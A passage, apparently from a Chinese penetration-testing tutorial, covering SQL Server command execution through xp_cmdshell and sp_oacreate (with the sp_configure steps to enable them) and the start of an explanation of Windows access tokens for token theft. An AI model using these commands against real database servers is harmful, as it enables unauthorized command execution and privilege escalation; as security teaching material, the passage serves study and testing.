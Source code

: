 ### 3.3.2 执行命令

```sql
EXEC master..xp_cmdshell 'whoami'
```

## 3.4 SQLServer sp_oacreate 提权

这个是不带回显的命令执行

### 3.4.1 利用原理

开启外围应用配置器的 OleAutomationEnabled, 并调用 sp_oacreate 模块执行系统命令

### 3.4.2 利用步骤

1. 判断 sp_oacreate 是否开启

```sql
declare @shell int exec sp_oacreate 'wscript.shell'
```

2. 开启 sp_oacreate

```sql
EXEC sp_configure 'show advanced options', 1;reconfigure;
EXEC sp_configure 'Ole Automation Procedures', 1; reconfigure;
```

3. 执行命令

```sql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,’c:/windows/system32/cmd.exe /c whoami > c:/Temp/cmd.txt'
```

# 4. Token 窃取与利用

## 4.1 Windows Token 介绍

Windows Token 其实叫 Access Token(访问令牌)，它是一个描述进程或者线程安全上下文的一个对象。不同的用户登录计算机后， 都会生成一个 Access Token，这个 Token 在用户创建进程或者线程时会被使用，不断的拷贝。当用户登录后, 每个进程的创建都会由 LSA(Local Security Authority)分配一个 Token(如果创建进程时指定了 Token, 则 LSA 就会使用这个 Token), 否则就拷贝一个父进程的 Token。

这也就解释了 A 用户创建一个进程而该进程没有 B 用户的权限，因为默认打开一个进程都是以自身的令牌去验证启动的。

## 4.2 Windows Token 种类

Access Token 种类分为:

1. 主令牌, 用户活动时使用的令牌
2. 模拟令牌, 用户注销后, 主令牌自动切换为模拟令牌.

一般情况下，用户双击运行一个程序，都会拷贝`explorer.exe`的 Access Token，这也是某些 api 函数基于反调试的时候的判断点。比如在程序启动后，会有一个`STARTUPINFO`的结构体变量，来保存程序启动的信息，我们通过其中类型为`DWORD`的参数的改变来检测程序是正常运行还是在调试器中运行的。
